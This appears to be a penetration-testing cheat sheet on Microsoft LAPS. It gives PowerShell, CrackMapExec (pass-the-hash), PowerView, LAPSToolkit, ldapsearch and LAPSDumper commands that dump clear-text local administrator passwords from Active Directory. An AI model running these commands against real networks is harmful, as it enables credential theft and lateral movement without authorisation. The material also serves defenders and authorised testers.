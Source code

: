 # LAPS Passwords

{% hint style="info" %}
Use LAPS to automatically manage local administrator passwords on domain joined computers so that passwords are unique on each managed computer, randomly generated, and securely stored in Active Directory infrastructure.
{% endhint %}

## <mark style="color:red;">**Determine if LAPS is installed**</mark>

```
Get-ChildItem 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-FileHash 'c:\program files\LAPS\CSE\Admpwd.dll'
Get-AuthenticodeSignature 'c:\program files\LAPS\CSE\Admpwd.dll'
```

## <mark style="color:red;">**Extract LAPS password**</mark>

{% hint style="info" %}
The "ms-mcs-AdmPwd" a "confidential" computer attribute that stores the clear-text LAPS password. Confidential attributes can only be viewed by Domain Admins by default, and unlike other attributes, is not accessible by Authenticated Users
{% endhint %}

### <mark style="color:orange;">adsisearcher (native binary on Windows 8+)</mark>

```
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=*))").findAll() | ForEach-Object { $_.properties}
([adsisearcher]"(&(objectCategory=computer)(ms-MCS-AdmPwd=*)(sAMAccountName=MACHINE$))").findAll() | ForEach-Object { $_.properties}
```

### <mark style="color:orange;">CrackMapExec</mark>

```
crackmapexec smb 10.10.10.10 -u user -H 8846f7eaee8fb117ad06bdd830b7586c -M laps
```

### <mark style="color:orange;">Powerview</mark>

```
PS > Import-Module .\PowerView.ps1
PS > Get-DomainComputer COMPUTER -Properties ms-mcs-AdmPwd,ComputerName,ms-mcs-AdmPwdExpirationTime
```

### <mark style="color:orange;">LAPSToolkit</mark>

#### [https://github.com/leoloobeek/LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)

```
$ Get-LAPSComputers
ComputerName                Password                                 Expiration         
------------                --------                                 ----------         
exmaple.domain.local        dbZu7;vGaI)Y6w1L                         02/21/2021 22:29:18

$ Find-LAPSDelegatedGroups
$ Find-AdmPwdExtendedRights
```

### <mark style="color:orange;">ldapsearch</mark>

```
ldapsearch -x -h  -D "@" -w  -b "dc=<>,dc=<>,dc=<>" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd`
```

### <mark style="color:orange;">LAPSDumper</mark>

[**https://github.com/n00py/LAPSDumper**](https://github.com/n00py/LAPSDumper)

```
python laps.py -u user -p password -d domain.local
python laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```

### <mark style="color:orange;">Powershell AdmPwd.PS</mark>

```
foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
```
